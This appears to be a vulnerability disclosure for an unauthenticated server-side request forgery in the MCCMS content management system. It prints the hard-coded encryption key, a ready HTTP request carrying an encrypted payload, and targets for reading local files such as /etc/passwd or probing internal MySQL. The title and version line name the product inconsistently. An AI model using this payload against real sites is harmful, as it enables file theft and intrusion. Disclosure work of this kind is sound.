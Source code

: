 **Exploit Title: MCCMS Server-Side Request Forgery (SSRF) Vulnerability (Unauthenticated)**

**Version: CTCMS v2.7.0**

**Google Dork: N/A**

**Date: 04/28/2025**

**Tested on: Apache2.4, MySQL5.7, PHP7.3**

**Software Link: https://www.mccms.cn/**

**Description: This application has an SSRF vulnerability located in the index() method of the sys\apps\controllers\api\Gf.php file, where the pic parameter is processed. The pic parameter is decrypted using the sys_auth($pic, 1) function, which utilizes a hard-coded key Mc_Encryption_Key (bD2voYwPpNuJ7B8), defined in the db.php file. The decrypted URL is passed to the geturl() method, which uses cURL to make a request to the URL without proper security checks. An attacker can craft a malicious encrypted pic parameter, which, when decrypted, points to internal addresses or local file paths (such as http://127.0.0.1 or file://). By using the file:// protocol, the attacker can access arbitrary files on the local file system (e.g., file:///etc/passwd, file:///C:/Windows/System32/drivers/etc/hosts), allowing them to read sensitive configuration files, log files, and more, leading to information leakage or system exposure. The danger of this SSRF vulnerability includes accessing internal services and local file systems through protocols like http://, ftp://, and file://, which can result in sensitive data leakage, remote code execution, privilege escalation, or full system compromise, severely affecting the system's security and stability.**
![image](https://github.com/user-attachments/assets/03e91507-1921-4136-9677-194e37a35293)
![image](https://github.com/user-attachments/assets/7ba78941-2777-4609-b095-d71da7bfe326)
![image](https://github.com/user-attachments/assets/468490fa-48e9-48d4-8a97-3089e3caf497)

Payload used:
```
GET /index.php/api/gf/?pic=Qq6XqoI-6Gg9fTON51lmQzswca2YHCQug4NM3jNzxw6fmksL8ZqmqBUtBJ/HPC8HYPZAX-vyY-gj/jjkIMnMjmcE/eVzHQlBvbc HTTP/1.1
Host: www.mccms.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

Example：
1. Craft and Send the Malicious Request: Modify the pic parameter to point to an internal address or local file (e.g., http://127.0.0.1 or file://), then send the request to the server, exploiting the SSRF vulnerability.
2. Below is a screenshot showing the successful request and the server’s response, confirming the exploitation.
![image](https://github.com/user-attachments/assets/784bff2d-8303-4f33-8b7b-01a963f81619)


Craft and Send the Malicious Request: Using poc.py, modify the pic parameter to point to http://127.0.0.1:3306 to probe for the internal MySQL database port, or use file://C:/Windows/win.ini to attempt reading the win.ini file.

Screenshot: Below is a screenshot showing the successful exploitation of the SSRF vulnerability.
![image](https://github.com/user-attachments/assets/62c2fddb-dbe7-4922-a5c1-c999d4a44d26)

![image](https://github.com/user-attachments/assets/016ba69e-156a-402f-9047-c7fe44cd9de3)

